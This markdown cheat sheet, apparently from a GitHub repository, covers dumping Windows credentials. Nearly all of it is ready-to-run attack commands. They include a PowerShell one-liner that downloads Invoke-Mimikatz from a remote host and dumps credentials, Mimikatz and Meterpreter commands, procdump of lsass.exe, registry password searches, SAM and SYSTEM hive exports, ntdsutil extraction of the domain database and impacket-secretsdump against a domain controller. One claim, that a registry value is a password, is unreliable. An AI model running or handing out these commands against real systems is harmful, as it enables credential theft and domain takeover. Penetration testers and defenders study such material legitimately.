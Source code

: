 # Dumping Credentials with Mimikatz and Other Tools
## Usefull Information
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-credentials-from-lsass.exe-process-memory
https://www.offensive-security.com/metasploit-unleashed/mimikatz/

## Download
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

## Mimkatz Commands
Checking permissions:  
privilege::debug  
Dumping passwords:  
sekurlsa::logonpasswords  
Dumping passwords cleartext:  
sekurlsa::wdigest  

With Meterpreter you can use these following commands:  
hashdump  
load mimikatz  
help mimikatz  
mimikatz_command -f version  

Other Meterpreter commands which use Mimikatz
msv  
kerberos  
mimikatz_command -f samdump::hashes  

# Dumping Credentials without Mimikatz
## Dimping Lsass without mimikatz
1. Open Task Manager
2. Rignt click on lsass.exe

## Dumping with Procdump
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

## Creds in Registry
```powershell
reg query HKLM /f password /t REG_SZ /s
# or
reg query HKCU /f password /t REG_SZ /s
```
Passwords can be found with this filter
```powershell
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
value of notification packages is a password

## Dumping SAM Registry
```powershell
reg save hklm\system system
reg save hklm\sam sam
```

# Dumping a Domain Controller
## Dumping DC Passwords Locally
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

## Dumping DC Passwords Remotly (Password Required)
```powershell
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```
